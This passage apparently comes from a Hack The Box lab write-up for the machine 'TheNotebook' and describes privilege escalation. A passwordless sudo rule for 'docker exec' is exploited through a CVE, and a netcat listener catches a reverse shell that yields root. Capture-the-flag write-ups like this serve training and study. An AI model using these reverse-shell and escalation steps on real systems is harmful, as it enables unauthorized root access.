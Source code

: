 Running sudo -l shows that we can run a binary as root with no password
```bash
noah@thenotebook:~$ sudo -l
Matching Defaults entries for noah on thenotebook:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User noah may run the following commands on thenotebook:
    (ALL) NOPASSWD: /usr/bin/docker exec -it webapp-dev01*
noah@thenotebook:~$
```
Do some googling around and find that there is a priv esc for this scenario
![[Pasted image 20210707223935.png]]
At this point the privesc is basically following this cve. Change the payload to a reverse shell of your choice, follow the rest of the steps and start a listener on your machine for a root shell
```bash
hunter@kali ~/htb/thenotebook/www$ nc -lvnp 9001
listening on [any] 9001 ...
connect to [10.10.14.25] from (UNKNOWN) [10.10.10.230] 45294
/bin/sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)
```